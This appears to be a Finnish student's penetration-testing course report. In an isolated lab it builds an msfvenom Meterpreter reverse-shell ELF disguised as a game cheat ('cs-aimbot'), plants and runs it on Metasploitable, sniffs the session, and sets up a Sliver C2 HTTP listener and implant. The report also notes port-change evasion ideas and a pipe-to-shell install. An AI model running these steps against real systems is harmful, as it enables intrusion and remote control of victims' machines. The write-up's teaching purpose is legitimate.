# h6 Koita simpukoita

Viikon läksyjen tarkemmat tehtävänannot löytyvät kurssin [sivuilta](https://terokarvinen.com/tunkeutumistestaus/#h6-koita-simpukoita).

### Kurssilla käytetty työympäristö
- Lenovo Yoga Slim 7 Pro (AMD Ryzen 7 5800H @ 3.20 GHz, 16 GB DDR4-3200, NVIDIA GeForce RTX 3050 laptop 4 GB GDDR6). WIN11, versio 25H2.
- Oracle VirtualBox 7.2.6
  - Linux Kali 2026.1 x64, 4 GB RAM, 2 prosessoria
  - Metasploitable 2, 2 GB RAM
- Molemmat virtuaalikoneet ovat host-only verkossa.
  - VirtualBox Host-Only Ethernet Adapter #2.
    - Adapteri konfiguroitu manuaalisesti, DHCP Server käytössä.

Labratehtävissä virtuaalikoneet eivät ole julkisessa verkossa. Tämä on varmistettu pingaamalla kummallakin koneella ``$ ping 8.8.8.8`` ja vastaukseksi on saatu ``ping: connect: Network is unreachable``.

Tehtävissä käytetty Linux Kalia, ellei toisin mainita. Metasploitable on ollut taustalla auki.

## a) Venom

> Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

### Preppausta

Ennen tehtävien aloitusta pohdin, että tältäkö H. Moilasesta tuntui säähavaintopallon laskeutuessa hänen pellolleen. Itselläni onneksi on Google, ja sen avulla tehtävätkin lähtivät käyntiin.

Googletin aivan ensimmäiseksi lisää tietoa tehtävässä käytettävästä ``msfvenomista``. ``MSFvenom`` on Metasploit Frameworkiin kuuluva komentorivityökalu, jolla luodaan ja muotoillaan Metasploitin payload-koodeja. Se yhdisti vanhat msfpayload- ja msfencode-työkalut yhdeksi työkaluksi: payloadien generoinnin, enkoodauksen ja eri tulostusformaattien käsittelyn samaan komentoon. (OffSec Metasploit Unleashed, MSFvenom)

 Toiseksi löysin 101Labsin [harjoituksen](https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/), jossa muodostetaan reverse shell -yhteys Linux kohteeseen käyttäen Msfvenomia ja Metasploittia. Tämä kuulosti hyvin samalta, mitä omassa tehtävänannossa pyydettiin tekemään, joten lähdin suorittamaan tehtävää ohjeistuksen avulla.

 ### Payload

 Tarkistin aluksi, että Kalista varmasti löytyivät tarvittavat ohjelmat käynnistämällä nämä komennoilla:

    $ msfvenom
    $ msfconsole

Kun nämä löytyivät, tuli seuraavaksi luoda Metasploitableen kohdistuva payload ``msfvenom``-työkalulla Kalissa. Tämä tehtiin komennolla:

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.129.4 LPORT=5555 -f elf -o cs-aimbot.elf

Komennossa:
- ``msfvenom`` on metasploitin työkalu payloadien luomiseen
- ``-p linux/x86/meterpreter/reverse_tcp``, ``-p``-optiolla (--payload) valittiin käytettävä payload. (OffSec, msfvenom)
  - ``linux/x86/meterpreter/reverse_tcp`` tarkoittanee todennäköisesti 32-bittiselle Linux -kohteelle (kuten Metasploitable) tarkoitettua Meterpreter-yhteyden muodostavaa reverse TCP -payloadia.
- ``LHOST=192.168.129.4`` määrittää hyökkääjän (Kalin) oman osoitteen, mihin kohde tulee avaamaan reverse shellin.
- ``LPORT=5555`` määrittää portti, johon yhteys muodostetaan
- ``-f elf``, ``-f``-optio (--format) määrittää mihin muotoon payload luodaan
  - ``elf`` on Linux-järjestelmissä käytettävä suoritustiedostomuoto (Dev.to, ELF Files)
- ``-o cs-aimbot.elf``, ``-o``-optio (--out) tallentaa payloadin. (OffSec, msfvenom)



Komento suoritettiin onnistuneesti, ja `msfvenom` loi ELF-muotoisen payload-tiedoston nimellä `cs-aimbot.elf`. Tulosteessa näkyi lisäksi:
- Työkalu valitsi payloadin perusteella alustaksi Linuxin ja arkkitehtuuriksi x86.
  -  ``[-] No platform was selected, choosing ... from the payload``
  -  ``[-] No arch selected, selecting arch: x86 from the payload``
- Encoderia ei määritetty, joten payload tuotettiin raakamuodossa.
  - ``No encoder specified, outputting raw payload``
- Lopuksi `msfvenom` ilmoitti payloadin ja valmiin ELF-tiedoston koot sekä vahvisti tiedoston tallentamisen.
  - ``Payload size: 123 bytes``
  - ``Final size of elf file: 207 bytes``
  - ``Saved as: cs-aimbot.elf``

Tarkistin vielä mitä luomastani payload-tiedostosta selviää komennolla:

    $ file cs.aimbot.elf



Tulosteesta kävi myös ilmi, että ``msfvenom`` loi Linuxille tarkoitetun 32-bittisen x86 ELF-suoritustiedoston ``cs-aimbot.elf: ELF 32-bit LSB executable, Intel i386``. 

### Planting the bomb

Oikeassa maailmassa ``cs-aimbot.elf`` olisi voinut päätyä koneelle pelaajan kautta, joka on juuri hävinnyt kolme matsia putkeen ja alkanut tehdä huonoja päätöksiä Googlessa. Tässä harjoituksessa jätin moraalisen alamäen simuloimatta ja siirsin tiedoston FTP:llä.

Siirtäminen alkoi avaamalla FTP-yhteys Metasploitable virtuaalikoneeseen:

    $ ftp 192.168.129.3



Kun FTP-yhteys oli muodostettu, lähetin ``cs-aimbot.elf``-payloadin kohteeseen komennolla:

    put cs-aimbot.elf

Tulosteesta kävi ilmi tiedonsiirron onnistuneen ``226 Transfer complete.``, sekä lähetetyn tiedoston koko ``207 bytes sent in 00:00 (9.10 KiB/s)``. 207 tavua vastasi aiemmin luomani payloadin kokoa.



Tarkistin vielä tiedoston siirtyneen tarkistamalla hakemiston sisällön komennolla:

    ls

``cs-aimbot.elf`` löytyi kohteesta.



Jotta tiedosto voidaan suorittaa Linux-ympäristössä, sille täytyy antaa suoritusoikeudet. Todellisessa tilanteessa tämä voisi tapahtua esimerkiksi käyttäjän seuratessa latauksen mukana annettuja “asennusohjeita” tai hyväksyessä käyttöjärjestelmän esittämän suorituskehotteen.

Tässä labraharjoituksessa tarkistin ensin Metasploitable virtuaalikoneen hakemiston sisällön, annoin suoritusoikeuden ``cs-aimbot.elf``:lle ja tarkistin käyttöoikeuksien siirtyneen komennoilla:

    ls
    chmod +x cs-aimbot.elf
    ls -al cs-aimbot.elf

``-rwxr-xr-x`` vastaus kertoo ``cs-aimbot.elf``:n olevan nyt suoritettava tiedosto.



Ennen kuin ``cs-aimbot.elf`` voitiin suorittaa kohdekoneella, Kalin puolelle täytyi valmistella vastaanottaja reverse-yhteyttä varten. Käynnistin Metasploitin Kalissa komennolla:

    msfconsole

Metasploitin käynnistyttyä valitsin käyttöön multi/handler-moduulin, jota käytettiin reverse-yhteyden vastaanottamiseen:

    use exploit/multi/handler



Tämän jälkeen määritin listenerille samat asetukset, joita payloadin luonnissa oli käytetty. Asetin paikalliseksi osoitteeksi Kalin IP-osoitteen, portiksi aiemmin määritetyn portin ja payload-tyypiksi Linuxille tarkoitetun reverse TCP Meterpreter -payloadin:

    set LHOST 192.168.129.4
    set LPORT 5555
    set payload linux/x86/meterpreter/reverse_tcp



Lopuksi käynnistin listenerin komennolla:

    run

Tämän jälkeen Metasploit jäi odottamaan yhteyttä kohdekoneelta. Tässä vaiheessa viritys oli valmis: ``cs-aimbot.elf`` oli kohteessa, sillä oli suoritusoikeudet ja Kalin puolella oli kuuntelija valmiina vastaanottamaan yhteyden, kun payload suoritettaisiin. Bomb has been planted!



### Tähtäin lukittu: payload käynnistyy

Jäljellä enää payloadin suorittaminen. Tässä vaiheessa palasin Metasploitable-virtuaalikoneen terminaaliin ja käynnistin payloadin komennolla:

    ./cs-aimbot.elf

Tämä vastasi skenaarion viimeistä vaihetta: käyttäjä käynnisti lataamansa “tähtäinavun” uskoen ajavansa hyödyllisen ohjelman. Todellisuudessa ohjelma muodosti reverse-yhteyden takaisin Kaliin, jossa multi/handler odotti yhteyttä.

Kun payload suoritettiin kohdekoneella, Metasploitin puolelle muodostui uusi Meterpreter-istunto. Tämä näkyi listenerin tulosteessa ilmoituksena avatusta sessiosta. Tässä vaiheessa yhteys kohdekoneelta hyökkääjän koneelle oli muodostunut onnistuneesti.

Meterpreter-istunnon kautta oli mahdollista siirtyä tavalliseen komentotulkkiin komennolla:

    shell



``cs-aimbot.elf`` oli suoritettu onnistuneesti ja payloadin muodostama reverse-yhteys oli saatu auki.

## b) Sniff Venom!

Aloitin sniffauksen tarkistamalla Kalin verkkoliitännät komennolla:

    ip a

Saamastani vastauksesta verkkoliitäntä ``eth1`` piti sisällään Host-only verkon (``eth1: ... inet 192.168.129.4/24``), mitä tässä tehtävässä halusin kuunnella.

Avasin Wiresharkin ja valitsin kaapattavaksi verkoksi ``eth1``. Kaappauksen käynnistämisen jälkeen rajasin näkyvän liikenteen listenerissä käytettyyn porttiin 5555 suodattimella:

    tcp.port == 5555

Koska reverse shell -yhteys oli edelleen aktiivinen, payloadia ei tarvinnut suorittaa uudestaan. Tuotin liikennettä suorittamalla avoimessa shellissä yksinkertaisia komentoja, jolloin yhteyden yli kulkevat paketit tulivat näkyviin Wiresharkissa.



- Wiresharkissa näkyi TCP-liikennettä Kalin ja Metasploitablen välillä.
- Liikenne kulki portin 5555 kautta, joka oli sama kuin Metasploit-listenerissä määritetty LPORT.
- Yhteydessä näkyi väliaikainen asiakasportti, esimerkiksi 40164, ja listener-portti 5555.
  - Tämä vastasi reverse shell -mallia: kohdekone muodosti yhteyden takaisin Kaliin.
- [PSH, ACK]-paketit osoittivat, että yhteyden yli kulki varsinaista dataa.

Tunnistamista voisi vaikeuttaa muuttamalla yhteyden näkyviä ominaisuuksia. Esimerkiksi poikkeavan portin 5555 sijaan liikenne voitaisiin ohjata porttiin, joka muistuttaa normaalia verkkoliikennettä.

*Tehtävän jälkeen tajusin, että lisätietoa olisi saanut tarkastelemalla TCP-kättelyä. Koska Wireshark-kaappaus aloitettiin vasta yhteyden ollessa jo auki, SYN, SYN/ACK ja ACK -paketit eivät näkyneet. Näiden avulla olisi todennäköisesti selvinnyt, miten yhteys muodostui ja kumpi kone aloitti sen.*

## c) Hello, Sliver

### Preppausta once again

Seuraavaksi vastaan tuli uusi työkalu: ``Sliver``. Aloitin tehtävän etsimällä ensin tietoa siitä, mikä ``Sliver`` on ja mihin sitä käytetään.

``Sliver`` on avoimen lähdekoodin C2-työkalu eli command and control -kehys. Sen avulla voidaan luoda yhteys kohdekoneen ja hyökkääjän koneen välille tietoturvatestausta varten. Sliverin GitHub-sivun mukaan sitä käytetään adversary emulation- ja red team -harjoituksissa, ja sen implantit tukevat useita yhteystapoja, kuten Mutual TLS (mTLS), WireGuard, HTTP(S) ja DNS. (Bishop Fox Github, Sliver)

Tämän tehtävän kannalta tärkein kohta oli HTTP-yhteys. Sliverin dokumentaation mukaan ``Sliver`` tukee C2-yhteyttä HTTP:n ja HTTPS:n yli. Käytännössä tämä tarkoitti sitä, että kohdekoneella ajettava implantti ottaa yhteyden takaisin Sliver-palvelimeen HTTP-yhteyden avulla. (Sliver.sh Docs, HTTPS C2)

### Tehtävä

Aloitin Sliver-tehtävän asentamalla Sliverin Kali-virtuaalikoneeseen. Asennuksen ajaksi yhdistin Kalin julkiseen verkkoon. Kali toimi tässä harjoituksessa Sliver-palvelimena, ja Metasploitable oli kohdekone. Asennukseen käytin Sliverin virallista Linux-asennusskriptiä komennolla:

    $ curl https://sliver.sh/install | sudo bash

Asennuksen jälkeen käynnistin Sliverin komennolla:

    sliver



Käynnistin HTTP-listenerin komennolla:

    http -L 192.168.129.4 -l 8080

``http --help``:n perusteella ``-L`` (--lhost string) määritti listenerin käyttämän paikallisen IP-osoitteen ja ``-l`` (--lport) kuunneltavan portin. Komennon suorittamisen jälkeen Sliver ilmoitti käynnistäneensä HTTP-listenerin onnistuneesti: ``Successfully started job #2``. 

Olin hetkeä aiemmin kokeillut pelkkää komentoa ``http``, mikä aloitti kuuntelemaan oletusporttia 80, tästä oli syntynyt ``job #1``. Tehtävän poistaminen onnistui ``jobs -kill 1``-komennolla.



Sliverin dokumentaation perusteella implantti luodaan ``generate``-komennolla. Implantille täytyy määrittää C2-yhteystapa, tässä tapauksessa HTTP-yhteys ``--http``-valitsimella. Lisäksi dokumentaatiossa kerrotaan, että kohdejärjestelmä ja arkkitehtuuri voidaan määrittää ``--os``- ja ``--arch``-valitsimilla. (Sliver.sh Docs, Getting Started)

Käytin edellisessäkin tehtävässä käyttämiäni arvoja ja annoin komennon:

    generate --http http://192.168.129.4:8080 --os linux --arch 386



Tässä kohtaa sliver jäi pyörittämään ``Compiling, please wait ...`` arviolta noin kahdeksikymmeneksi minuutiksi. Keskeytin generoinnin ja käynnistin sen uudestaan, tällä kertaa lisäten ``--format elf`` komennon perään.



Ikä ja terveys myöhemmin yön pimetessä, ehdin välissä tehdä teoriatasolla kaksi seuraavaa tehtävää, kun generointi meni läpi



*Generointi valmistui lopulta, mutta ajan loppumisen vuoksi en ehtinyt viedä Sliver-harjoitusta käytännössä loppuun. Seuraavat vaiheet olisivat olleet samankaltaiset kuin aiemmassa msfvenom-tehtävässä: luotu ELF-implantti olisi siirretty Metasploitable-koneelle, tiedostolle olisi annettu suoritusoikeudet ja implantti olisi käynnistetty kohdekoneella.*

## d) Sniff Sliver!

*Sliver jumittui kirjoitushetkellä http implantin generoinnissa, niin päätin käsitellä tehtävää kuitenkin teoriatasolla Sliverin dokumentaation ja aiemman reverse shell -tehtävän havaintojen perusteella.*

Koska Sliver-implantin generointi jäi jumiin kohtaan Compiling, please wait ..., en saanut muodostettua toimivaa Sliver HTTP -sessioyhteyttä labraympäristössä. Tämän vuoksi en pystynyt tekemään varsinaista pakettikaappausta toimivasta Sliver-yhteydestä.

Jos Sliverin HTTP-yhteys olisi saatu toimimaan portissa 8080, Wiresharkissa olisi todennäköisesti näkynyt TCP-liikennettä Metasploitablen ja Kalin välillä kyseiseen porttiin. Koska kyseessä olisi ollut HTTP-pohjainen C2-yhteys, liikennettä olisi voinut etsiä esimerkiksi suodattimilla ``tcp.port == 8080`` tai ``http``

## e) Yhteyden ominaisuuksien muuttaminen Sliverillä

*Sliver jumittui uudelleen uuden http implantin generoinnissa, niin päätin käsitellä tämänkin tehtävän teoriatasolla hyödyntämällä Sliverin dokumentaatioita.*

Tulkitsin “yhteyden ominaisuuksien muuttamisen” tarkoittavan esimerkiksi yhteystavan, portin, implantin toimintatilan tai yhteyden ajoituksen muuttamista. Sliverin dokumentaation mukaan implanttia luodessa täytyy määrittää vähintään yksi C2-endpoint, esimerkiksi ``--mtls``, ``--wg``, ``--http`` tai ``--dns``. Dokumentaatiossa kerrotaan myös, että ``--http``-endpointilla implantti yrittää ensin HTTPS-yhteyttä ja sen epäonnistuessa HTTP-yhteyttä. (Sliver.sh Docs, Getting Started)

Yksinkertaisin esimerkki yhteyden ominaisuuden muuttamisesta olisi portin vaihtaminen. Aiemmassa HTTP-tehtävässä listener kuunteli (tai ainakin yritti) portissa 8080, mutta sen voisi teoriassa vaihtaa esimerkiksi porttiin 8000. Tällöin Sliverissä käynnistettäisiin HTTP-listener eri porttiin ja implantti luotaisiin käyttämään samaa endpointtia.

## f) Sliveristä on moneksi

*Sliver-implantti jäi käännösvaiheeseen, ja koska deadline lähestyi yön pimetessä, käsittelin tämän pikaisesti teoriatasolla. Ratkaisu ei ollut sankarillinen, mutta se oli terveydellisesti perusteltu.*

Sliverin lähdekoodin ``implant/sliver``-hakemisto antaa hyvän kuvan siitä, millaisia ominaisuuksia implanttiin on rakennettu.

- Ruutukaappaus: Sliverin screen-komponentti viittaa siihen, että implantti voi kaapata kohdekoneen näytön.
- Prosessien listaus: ps-komponentti viittaa prosessien listaamiseen. 
- Verkkoyhteyksien tarkastelu: netstat-komponentti viittaa verkkoyhteyksien ja socket-taulujen tarkasteluun. 
- Interaktiivinen komentotulkki: shell-komponentti mahdollistaa komentojen suorittamisen kohdekoneessa. 

## Lähteet

Tero Karvinen
- Tunkeutumistestaus, koita simpukoita: https://terokarvinen.com/tunkeutumistestaus/#h6-koita-simpukoita

OffSec, Metasploit Unleashed
- MSFvenom: https://www.offsec.com/metasploit-unleashed/msfvenom/

101Labs, Comptia Labs
- Establishing a reverse shell on a Linux target using Msfvenom and Metasploit: https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/

DEV Community
- Understanding the Basics of ELF Files on Linux: https://dev.to/bytehackr/understanding-the-basics-of-elf-files-on-linux-61c

Github, BishopFox
- Sliver: https://github.com/BishopFox/sliver/
- Sliver Implants: https://github.com/BishopFox/sliver/tree/master/implant/sliver/

Sliver.sh Docs
- HTTPS C2: https://sliver.sh/docs/?name=HTTPS+C2
- Getting Started: https://sliver.sh/docs/?name=Getting+Started